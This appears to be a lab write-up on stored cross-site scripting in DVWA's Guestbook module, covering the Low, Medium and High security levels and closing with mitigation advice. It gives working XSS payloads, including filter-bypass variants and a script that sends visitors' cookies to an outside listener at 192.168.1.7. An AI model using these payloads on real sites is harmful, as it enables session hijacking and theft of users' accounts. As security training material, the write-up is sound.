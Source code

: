 
# 📘 DVWA – Stored XSS (Guestbook) Writeup

This document provides a full analysis of the **Stored Cross-Site Scripting (XSS)** vulnerability in the DVWA "Guestbook" module across Low, Medium, and High security levels.

---

## 🔍 Vulnerable Code Review

### 🔓 Low Security

```php
$message = trim( $_POST[ 'mtxMessage' ] );
$name    = trim( $_POST[ 'txtName' ] );

$message = stripslashes( $message );
$message = mysqli_real_escape_string( $conn, $message );
$name = mysqli_real_escape_string( $conn, $name );

$query  = "INSERT INTO guestbook ( comment, name ) VALUES ( '$message', '$name' );";
```

- ❌ **No output encoding**
- ❌ **No HTML filtering**
- ❌ **Stored raw in DB, rendered unsanitized**

### ✅ Exploitation

Payload:
```html
<script>alert("Stored XSS")</script>
```
Will be stored in the database and **executed every time** someone views the guestbook.

you can also use a listener check for incoming requests in the terminal when someone clicks on the stored XSS

```
payload: <script>new Image().src='http://192.168.1.7:1339/bogus.php?output='+document.cookie;</script>
encoded payload: <script>new+Image().src%3d'http%3a//192.168.1.7%3a1339/bogus.php%3foutput%3d'%2bdocument.cookie%3b</script>
```

---

### 🟡 Medium Security

```php
$message = strip_tags( addslashes( $message ) );
$message = mysqli_real_escape_string( $conn, $message );
$message = htmlspecialchars( $message );
$name = str_replace( '<script>', '', $name );
```

- ✅ Some tag filtering with `strip_tags()`
- ⚠️ Only removes `<script>` exactly
- ❌ Allows event handlers like `onmouseover`
- ❌ Still reflects in guestbook

### 🧪 Bypass Example

Payload:
```html
<img src=x onerror=alert('XSS')>
```

This bypasses the `<script>` filter entirely and is stored.

---

### 🔐 High Security

```php
$message = strip_tags( addslashes( $message ) );
$message = mysqli_real_escape_string( $conn, $message );
$message = htmlspecialchars( $message );

$name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $name );
```

- ✅ Filters `<script>` using regex
- ✅ Applies `htmlspecialchars()` for encoding
- ⚠️ Regex bypasses possible with malformed tag sequences
- ✅ Safer but still imperfect

### ⚔️ Advanced Bypass (Theoretical)

If the HTML rendering is weak or double encoded elsewhere, payloads using:
```html
On title: <img src='x' onerror='alert(1)'>
!! encode the payload before you send it with burp
```
might still slip through, depending on output context.

---

## 🔍 Vulnerability Summary

| Security Level | Issues Present | Can Store Payload? | Executable in Browser? |
|----------------|----------------|---------------------|-------------------------|
| Low            | No filtering, no encoding | ✅ Yes | ✅ Yes |
| Medium         | Poor filtering, tag-specific | ✅ Yes | ✅ With tag bypass |
| High           | Regex/script filtering, encoded | ✅ Yes | ⚠️ Depends on context |

---

## 🔐 Mitigation Recommendations

| ❌ Vulnerability | ✅ Secure Approach |
|------------------|--------------------|
| No encoding      | Use `htmlspecialchars()` or templating engine |
| Bad filtering    | Use CSP, sanitize on input and encode on output |
| Regex filtering  | Use vetted libraries like DOMPurify (JS) or OWASP Java Encoder |

---

## 📌 Key Lessons

- **Stored XSS** is dangerous due to **persistent payloads**.
- Input sanitization is not enough: **encode on output**.
- **Filter evasion** is easy with modern obfuscation techniques.
- Defense-in-depth: **combine validation, encoding, and CSP**.

